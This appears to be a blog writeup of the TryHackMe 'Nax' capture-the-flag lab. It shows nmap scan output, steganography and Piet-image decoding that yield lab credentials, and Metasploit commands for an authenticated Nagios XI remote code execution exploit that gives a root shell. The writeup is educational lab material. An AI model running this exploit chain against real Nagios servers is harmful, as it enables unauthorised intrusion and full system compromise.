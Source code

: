 ```yaml
---
layout: post
title: THM Nax writeup
date: 2022-06-18T19:22:24.527Z
---
```

After lunching the vm i started doing some enumeration, port scanning and fuzzing

```
# Nmap 7.80 scan initiated Sun Jun 19 16:46:08 2022 as: nmap -sC -sV -oN nmap/results -v nax.thm
Nmap scan report for nax.thm (10.10.55.121)
Host is up (0.37s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:1d:d9:88:01:77:0a:52:bb:59:f9:da:c1:a6:e3:cd (RSA)
|_  256 20:28:15:ef:13:c8:9f:b8:a7:0f:50:e6:2f:3b:1e:57 (ED25519)
25/tcp  open  smtp    Postfix smtpd
|_smtp-commands: ubuntu.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Issuer: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| tls-alpn: 
|_  http/1.1
```

i found 5 ports open, but the only interesting one here is port 80 which is the webserver, i also did some fuzzing with gobuster but it didn't find actually something useful and so i looked at the website itself

![](/src/images/uploads/9s.png)

nothing interesting except those periodic table elements where if you get the atomic values you will get this

```
47 80 73 51 84 46 80 78 103
```

which looks like ascii values and by using an online converter from ascii to text you will get `/PI3T.PNg` which is the answer for the sercret file 

by opening that image you will get this 

![](/src/images/uploads/9d.png)

download that image and check its exif data 

```
exiftool PI3T.PNg
```

and here you will find the owner of the image

looking at the image it looks like piet programming language which decoded can show probably interesting information

i installed [npiet](https://www.bertnase.de/npiet/) and then ran 

```
./npiet PI3T.ppm -e 1000
```

which gives `nagiosadmin%n3p3UQ&9BjLp4$7uhWdY` probably user and password

after doing a small reserach i found this interesting [exploit](https://www.exploit-db.com/exploits/48191) which requires user and password that we have, then start metasploit

```
msfconsole
```

```
Msf6> use exploit/linux/http/nagios_xi_authenticated_rce
Msf6> options
Msf6> set PASSWORD n3p3UQ&9BjLp4$7uhWdY
Msf6> set USERNAME nagiosadmin
Msf6> set RHOSTS nax.thm
Msf6> set LHOSTS YOUR_IP
Msf6> run
```

and after running the exploit you will get a root shell where you can get both the flags